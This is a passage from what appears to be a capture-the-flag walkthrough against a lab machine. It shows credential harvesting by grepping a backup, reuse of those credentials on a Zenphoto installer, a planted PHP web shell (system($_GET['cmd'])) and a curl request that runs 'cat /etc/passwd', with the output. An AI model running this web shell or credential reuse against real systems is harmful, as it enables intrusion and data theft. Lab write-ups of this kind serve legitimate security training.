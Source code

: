 {% highlight bash %}
wget http://10.37.129.9/backups/SimplePHPQuiz-Backupz.tar.gz
tar -zxvf SimplePHPQuiz-Backupz.tar.gz
cd SimplePHPQuiz
grep -ir 'password' *
includes/db_conn.php:DEFINE ('DB_PASSWORD', 'dbpassword');
includes/db_conn.php:@ $dbc = new mysqli(DB_HOST, DB_USER, DB_PASSWORD, DB_NAME);
grep -ir 'db_user' *
includes/db_conn.php:DEFINE ('DB_USER', 'dbuser');
includes/db_conn.php:@ $dbc = new mysqli(DB_HOST, DB_USER, DB_PASSWORD, DB_NAME);
{% endhighlight %}

http://10.37.129.9/admin/

dbuser:dbpassword

success

Still nothing....

http://10.37.129.9/zenphoto

Loads up the zenphoto installer, so I set it up with the db credentials from the SimplePHPQuiz configs.

Now add my own admin user, admin:dr0wss4p!

Poke around a bit to try and upload a file, then looking through plugins I see the option to enable elFinder, turn it on and create a shell.php file, then edit the file in elFinder:

{% highlight php %}
<?php system($_GET["cmd"]); ?>
{% endhighlight %}

This will serve as a starting point to getting a real reverse shell going:

curl -v http://10.37.129.9/zenphoto/uploaded/shell.php?cmd=cat%20/etc/passwd

To test it out:

{% highlight bash %}
curl -v http://10.37.129.9/zenphoto/uploaded/shell.php?cmd=cat%20/etc/passwd
*   Trying 10.37.129.9...
* TCP_NODELAY set
* Connected to 10.37.129.9 (10.37.129.9) port 80 (#0)
> GET /zenphoto/uploaded/shell.php?cmd=cat%20/etc/passwd HTTP/1.1
> Host: 10.37.129.9
> User-Agent: curl/7.52.1
> Accept: */*
>
< HTTP/1.1 200 OK
< Date: Tue, 08 Aug 2017 04:37:55 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 2156
< Content-Type: text/html; charset=UTF-8
<
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin